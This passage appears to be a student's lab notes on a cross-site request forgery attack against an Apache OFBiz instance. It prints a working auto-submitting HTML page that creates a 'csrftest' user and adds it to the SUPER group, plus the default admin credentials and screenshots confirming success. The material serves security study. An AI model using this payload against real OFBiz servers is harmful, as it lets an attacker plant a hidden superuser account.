 ```html
  function submitForms() {
    document.forms['csrf'].submit();
    document.forms['csrf2'].submit();
    return false;
  }
</script>
</head>
<body onload="submitForms();" >
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf" target="_blank">
    <input type="hidden" name="enabled">
    <input type="hidden" name="partyId">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
    <input type="hidden" name="passwordHint">
    <input type="hidden" name="requirePasswordChange" value="N">
    <input type="hidden" name="externalAuthId">
    <input type="hidden" name="securityQuestion">
    <input type="hidden" name="securityAnswer">
  </form>
  <form action="https://ofbiz:8443/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
<input type="hidden" name="userLoginId" value="csrftest">
<input type="hidden" name="partyId">
<input type="hidden" name="groupId" value="SUPER">
<input type="hidden" name="fromDate_i18n">
<input type="hidden" name="fromDate">
<input type="hidden" name="thruDate_i18n">
<input type="hidden" name="thruDate">
  </form>
</body>
</html>
```
This approach is problematic. Some JavaScript calls can be asynchronous, meaning that the forms might be submitted essentially at the same time. If the server processes the second form request first, it will fail since the first form contains our new user. This might occur if the target user's internet connection isn't stable. We will revise this attack later on, but let's try it as-is now. We'll need to make sure our session in OFBiz is still active before loading our new CSRF page in a new tab.


Logging in fresh before trying new `csrf` form `ofbiz1.html`:  with `admin:ofbiz` credentials
![[Pasted image 20240813153130.png]]
entering location of where the `csrf html` script is being hosted on my local machine
![[Pasted image 20240813153346.png]]
upon hitting enter two new tabs open thanks to the `_blank` field that we included

The 1st tab is attempting to create the `csrftest` user with the 1st form of the `html`
![[Pasted image 20240813155229.png]]
The 2nd tab is adding that `csrf` user to the `Super User group`
![[Pasted image 20240813155507.png]]
To keep note of what happened in the tab that the exploit was utilized in: it is blank
![[Pasted image 20240813155715.png]]
Our payload opened two new tabs, the second of which is on the Edit User Login Security Groups page. It seems our attack worked, but we can verify it by logging out of our current session and then logging in using the newly-created account.
